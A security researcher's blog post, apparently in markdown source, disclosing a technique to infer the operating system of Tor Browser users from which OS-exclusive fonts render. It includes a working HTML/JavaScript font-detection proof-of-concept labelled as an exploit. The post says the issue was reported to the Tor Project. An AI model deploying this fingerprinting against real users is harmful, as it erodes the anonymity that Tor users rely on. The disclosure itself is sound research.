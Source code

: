 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: ''
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify a user's operating system behind Tor and after reporting this to the Tor Project I was aware that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor browser is based on Firefox, with its peculiarities and digital privacy/anonymity promises, in addition to all its engineering to hide the IP from its user, Tor also promises to combat identifications that are linked to a person’s operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it.

However, it is possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete.

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png)


User identification using Tor outside MacOS: 

![](/images/publications/tor-detect-platform/tor-browser-without-macos.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts...

---

### Impact

Through this technique it is possible to identify the operating system of a user who is using Tor, on a website with low traffic volume, this distinction is enough to exclusively track users, already for a high traffic website, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot.

---

### References

* [https://www.torproject.org/](https://www.torproject.org/)
* [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
* [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
* [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
* [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)
